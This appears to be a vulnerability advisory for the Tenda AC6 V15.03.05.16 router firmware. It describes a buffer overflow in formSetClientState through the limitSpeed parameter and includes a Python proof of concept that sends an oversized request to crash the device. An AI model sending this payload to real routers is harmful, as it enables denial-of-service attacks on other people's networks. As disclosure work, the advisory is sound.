


## Tenda AC6 V15.03.05.16 firmware has a buffer overflow vulnerability in the formSetClientState  function

Tenda AC6 V15.03.05.16 firmware has a buffer overflow vulnerability in the `formSetClientState` function. The `sprintf(s, "%d;%s;%s;%s", v2, v9, v10, v11);` function copies the contents of the `limitSpeed` string to `v11` without performing a boundary check. it will cause a buffer overflow and overwrite the memory area after the array, which may cause the program to crash, thus triggering this security vulnerability.



### POC

```py
import requests

def generate_overflow_data():
    # Target buffer size is 0x400 bytes
    padding = b"X" * 0x400
    
    exploit_data = padding 
    
    return exploit_data

def execute_overflow(url, data):
    # Prepare malicious request parameters
    attack_params = {'deviceId':1,"limitEn":"1","limitSpeed":data}
   

    
    # Send the malicious request twice (as in original)
    server_response = requests.get(url, params=attack_params)
    server_response = requests.get(url, params=attack_params)
    
    # Display server response
    print("HTTP Status:", server_response.status_code)
    print("Response Content:", server_response.text)

if __name__ == "__main__":
    # Target endpoint
    target_url = "http://192.168.102.145/goform/SetClientState"
    
    # Generate overflow payload
    malicious_payload = generate_overflow_data()
    
    # Execute the attack
    execute_overflow(target_url, malicious_payload)
```

